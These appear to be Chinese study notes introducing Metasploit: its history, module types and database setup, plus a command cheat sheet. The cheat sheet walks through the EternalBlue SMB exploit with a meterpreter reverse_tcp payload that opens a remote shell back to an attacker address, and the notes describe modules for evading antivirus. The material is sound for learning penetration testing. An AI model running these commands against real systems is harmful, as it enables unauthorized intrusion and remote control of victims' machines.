



# Metasploit 

## 0x01 简介
> 目前最流行、最强大、最具扩展性的渗透测试平台软件


- 基于Metasploit进行渗透测试和漏洞分析的流程和方法进行开发
- 2003年由HD Moore发布第—版,2007年用 ruby 语言重写
-	框架集成了渗透测试标准(PETS)思想
-	—定程度上统—了渗透测试和漏洞研究的工作环境
-	新的攻击代码可以比较容易的加入框架
- 开发活跃版本更新频繁(每周)
-	早期版本基于社区力量维护,被 Rapid 7收购后打造出其商业版产品
-	目前分化为三个版本,社区版本依然十分活跃

  

## 0x02 Metasploit Framework
> Metasploit的版本之一, 默认集成在Kali中

- 使用 PostgreSQL 数据库进行数据存储
  > 现代 Kali 中已预配置数据库，首次使用时初始化即可：

```shell
# 初始化数据库（只需执行一次）
sudo msfdb init

# 启动 msfconsole
msfconsole

# 在 msf 中检查数据库连接
msf6 > db_status
```



### 框架组件
> 内容来自: https://parrotsec-china.org/t/metasploit/95
  

#### Ruby扩展库(REX)

Ruby扩展库是框架的基本组件，它包含各种可以由底层或其他工具直接使用的类。库提供的功能包括各种网络协议的服务端和客户端程序。

#### MSF-Core

框架核心提供了事件处理和会话管理功能，为处理框架提供了重要的功能。

#### MSF-Base

框架允许更容易地访问核心，并形成外部接口。用户界面直接访问这个库。Metasploit的插件功能值得一提，它允许通过向现有组件添加新命令来灵活地扩展框架。

#### plug
模块中框架函数的结构允许对程序进行清晰的处理，因为模块名称也反映在程序的文件夹结构中。

##### 利用模块

这个模块包含用于利用漏洞的程序和脚本
-	Exploits：利用系统漏洞进行攻击的动作,此模块对应每—个具体漏洞的攻击方 法(主动、被动)

##### 载荷
这里提供了有效载荷，可以在成功地利用目标系统漏洞之后使用。有效载荷是运行在目标上的实际恶意代码。
分为三种: 
-	Single：all-in-one
-	Stager：目标计算机内存有限时,先传输—个较小的payload用千建立连接
-	Stages：利用stager建立的连接下载的后续payload


##### 编码器和空指令

为了使有效载荷在IDS / IPS系统或反病毒程序下能不被发现，这些模块提供了混淆载荷的功能。

##### 辅助模块
辅助模块为信息检索提供各种扫描程序。其中包括登录扫描器、漏洞扫描器、网络嗅探和端口扫描器。

##### 后渗透模块 (Post)

用于在获取目标系统 session 后执行进一步操作：信息收集、提权、持久化、横向移动等。

##### 规避模块 (Evasion)

Metasploit 5+ 引入的模块类型，用于生成能绕过安全防护的载荷。

## 0x03 常用命令速查

```
# 搜索模块
msf6 > search type:exploit platform:windows smb
msf6 > search cve:2021-44228    # 按 CVE 编号搜索

# 使用模块
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(ms17_010_eternalblue) > show options
msf6 exploit(ms17_010_eternalblue) > set RHOSTS 192.168.1.100
msf6 exploit(ms17_010_eternalblue) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6 exploit(ms17_010_eternalblue) > set LHOST 192.168.1.50
msf6 exploit(ms17_010_eternalblue) > exploit

# 工作区管理（多目标测试时有用）
msf6 > workspace -a project1    # 创建工作区
msf6 > workspace project1       # 切换工作区
msf6 > workspace -l             # 列出所有工作区

# 数据库查询
msf6 > hosts                    # 查看已发现主机
msf6 > services                 # 查看已发现服务
msf6 > vulns                    # 查看已发现漏洞
msf6 > creds                    # 查看已获取凭据

# Session 管理
msf6 > sessions -l              # 列出所有 session
msf6 > sessions -i 1            # 进入 session 1
```
